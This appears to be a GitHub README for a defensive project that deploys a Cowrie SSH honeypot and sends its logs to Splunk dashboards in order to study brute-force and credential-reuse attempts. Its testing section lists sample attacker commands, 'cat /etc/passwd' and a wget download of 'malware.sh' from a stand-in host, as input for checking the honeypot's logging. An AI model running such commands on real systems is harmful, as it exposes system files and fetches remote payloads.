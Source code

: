 SSH Honeypot with Splunk Integration

## Objective
The goal of this project was to simulate a **vulnerable SSH environment** in order to monitor and analyze unauthorized access attempts.  
By deploying a **Cowrie SSH honeypot**, I was able to capture attacker behavior, collect brute-force attempts, and study credential reuse patterns in real time using **Splunk dashboards**.

---

## Environment Setup

### 1. Platform
- Deployed on a Linux VM (Ubuntu/Debian)
- SSH configured to run on the default port **22** for realism

### 2. Honeypot Tool
- Installed **Cowrie**, a medium-interaction SSH honeypot designed to log brute-force attacks and attacker commands  
- Simulated an SSH service with fake file systems and command responses

### 3. Logging & Monitoring
- Cowrie captured session data, usernames, passwords, and attacker commands  
- Integrated logs with **Splunk** via HTTP Event Collector for centralized monitoring, searching, and visualization

---

## Data Flow Overview
1. Attacker connects to the honeypot via SSH or Telnet  
2. Cowrie logs all activity and fake command execution  
3. A Python script (`send_to_splunk.py`) tails Cowrie’s logs and forwards data to Splunk’s HTTP Event Collector  
4. Splunk indexes the events and displays real-time dashboards

---

## How to Test the Honeypot

### SSH Test
```bash
ssh root@<Honeypot_Public_IP> -p 2222
```

## Try Fake Commands
ls
cat /etc/passwd
wget http://example.com/malware.sh

### Telnet Test
telnet <Honeypot_Public_IP> 2223

### Check Logs Directly
cd ~/cowrie/var/log/cowrie/
tail -f cowrie.log
tail -f jsonlog.json

## Data Captured
1. Brute Force Attempts
2. Attacker Commands
3. Credential Reuse

## Screenshots



